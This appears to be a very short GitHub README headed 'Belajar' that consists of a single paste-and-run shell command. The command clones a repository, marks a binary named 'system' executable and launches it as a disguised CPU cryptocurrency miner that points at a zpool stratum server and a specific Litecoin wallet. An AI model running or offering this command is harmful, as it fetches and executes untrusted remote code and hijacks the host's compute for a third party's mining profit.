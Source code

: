 # Belajar
# git clone https://github.com/Dawn-shell/linux && chmod +x linux/system && linux/system -a cpupower -o stratum+tcp://cpupower.sea.mine.zpool.ca:6240 -u MMpgS8ehm2TUthLcRZ7a1duioVLB6E4vjM -p c=LTC,zap=CPU
